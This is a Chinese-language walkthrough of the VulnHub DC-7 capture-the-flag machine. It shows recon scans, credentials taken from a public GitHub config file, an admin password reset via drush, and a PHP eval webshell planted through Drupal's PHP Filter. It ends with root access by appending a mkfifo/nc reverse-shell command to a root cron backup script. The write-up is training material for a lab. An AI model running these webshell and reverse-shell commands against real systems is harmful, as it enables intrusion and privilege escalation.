 > 
>
>  [DC-7靶机地址](https://www.vulnhub.com/entry/dc-7,356/)
>
> 

![image-20230808204245221](./imgs/image-20230808204245221.png)

同样的，把靶机跟kali放在同一网段，（NAT模式）

**主机发现**

```shell
arp-scan -l
```

![image-20230808204710235](./imgs/image-20230808204710235.png)

**端口扫描**

```shell
nmap -A -T4 -p- 192.168.80.139
```

![image-20230808204838597](./imgs/image-20230808204838597.png)

22端口开始，80端口开启

浏览器先访问一下靶机的`80`端口

![image-20230808205223470](./imgs/image-20230808205223470.png)

熟悉的`Drupal`站点

先爆破一下目录看看

```shell
dirsearch -u 192.168.80.139 -i 200
```

![image-20230808205712637](./imgs/image-20230808205712637.png)

进到	`/usr/login`目录下看看，发现是一个登录页面，这个时候没有密码，也不知道账户名

![image-20230808205800137](./imgs/image-20230808205800137.png)

DC-7首页也提示说：`暴力或字典攻击，你可能不会成功，跳出框框思考`，就需要从其他方向找突破口了。。。。

![image-20230808210017690](./imgs/image-20230808210017690.png)



用谷歌浏览器搜索一下`Dc7User`这么个关键词，发现有一个`github`

![image-20230808211151203](./imgs/image-20230808211151203.png)

进到	`Dc7User`的`github`里面，寻找，在一个`config.php`文件里出现用户名和密码这样的`敏感信息`

![image-20230808211633738](./imgs/image-20230808211633738.png)

```php
$username = "dc7user";
$password = "MdR3xOgB7#dW";
```

尝试去网站里登录，结果报错

![image-20230808211832025](./imgs/image-20230808211832025.png)

那就再试试`ssh`登录，成功进入！！！

![image-20230808211943245](./imgs/image-20230808211943245.png)

查看都有什么文件 ，使用命令`ls`

![image-20230808212239648](./imgs/image-20230808212239648.png)

进入`backups`目录里，发现都是看不懂的，搜了一下`gpg`后缀格式，发现是一种加密的文件格式

![image-20230808213123139](./imgs/image-20230808213123139.png)

![image-20230808212323437](./imgs/image-20230808212323437.png)

再去看看`mbox`文件，发现里面内容重复的很多，是一封邮件，有一个可执行的脚本,

一个以root权限定期执行的备份任务，执行文件/opt/scripts/backups.sh



![image-20230808212220436](./imgs/image-20230808212220436.png)

---

使用`cd`命令切换到`/opt/scripts/`下看看

提示说`cd /vat/www/html`下，执行`drush 命令`

![image-20230808212708654](./imgs/image-20230808212708654.png)

查看`backups.sh`的权限，发现所有人都可以执行此文件

![image-20230808214407873](./imgs/image-20230808214407873.png)



drush即drupal shell,用于管理和操作drupal站点，可以用来修改管理员密码

```shell
drush user-password admin --password="123456"  #修改密码
```

![image-20230808215107935](./imgs/image-20230808215107935.png)

账户`admin`密码`123`，登录成功！！！！！！！！！

<img src="./imgs/image-20230808215304909.png" alt="image-20230808215304909" style="zoom:33%;" />

**点击`Manage ——> Content ——> Add content ——> Basic page`功能，尝试添加php一句话木马，发现Drupal 8版本以后为了安全需要将php单独作为一个模块导入；需要去扩展里下载安装**



<img src="./imgs/image-20230808215839662.png" alt="image-20230808215839662" style="zoom:33%;" />

<img src="./imgs/image-20230808215843571.png" alt="image-20230808215843571" style="zoom:33%;" />

以`URL`的形式安装php8 `https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz`

![image-20230808220232587](./imgs/image-20230808220232587.png)

<img src="./imgs/image-20230808220101555.png" alt="image-20230808220101555" style="zoom:33%;" />

![image-20230808221021740](./imgs/image-20230808221021740.png)

在`Extend`里的`List`里，往下滑动，找`PHP`有关的，勾选上`PHP Filter`往下滑有个`install`

![image-20230808221001333](./imgs/image-20230808221001333.png)

安装完成！！！

![image-20230808221058719](./imgs/image-20230808221058719.png)

然后来到`Content`写一个一句话木马

```php
<?php eval(@$_POST['password']);?>
```

<img src="./imgs/image-20230808221334362.png" alt="image-20230808221334362" style="zoom:33%;" />

<img src="./imgs/image-20230808221341600.png" alt="image-20230808221341600" style="zoom:33%;" />

打开中国  蚁剑连接，蚁剑连接就得知道，刚上传的一句话木马的位置

<img src="./imgs/image-20230808221523643.png" alt="image-20230808221523643" style="zoom:33%;" />

<img src="./imgs/image-20230808221545679.png" alt="image-20230808221545679" style="zoom:33%;" />

蚁剑 测试连通性

<img src="./imgs/image-20230808221637347.png" alt="image-20230808221637347" style="zoom:33%;" />

kali开启监听

```shell
nc -lvvp 8989
```

![image-20230808222034497](./imgs/image-20230808222034497.png)

当前还只是普通用户，并没有管理员权限

<img src="./imgs/image-20230808222114325.png" alt="image-20230808222114325" style="zoom:33%;" />

进入交互shell

```shell
python -c "import pty;pty.spawn('/bin/bash')"
```

![image-20230808222532990](./imgs/image-20230808222532990.png)

在新开的终端监听`4444`端口

![image-20230808223046525](./imgs/image-20230808223046525.png)

反弹shell到`bashups.sh`里

```shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.80.141 4444 >/tmp/f" >> backups.sh
 
```

![image-20230808223301341](./imgs/image-20230808223301341.png)

等待计划任务执行，等等等...............

![image-20230809171557884](./imgs/image-20230809171557884.png)

进到`root`家目录查看

![image-20230809171701261](./imgs/image-20230809171701261.png)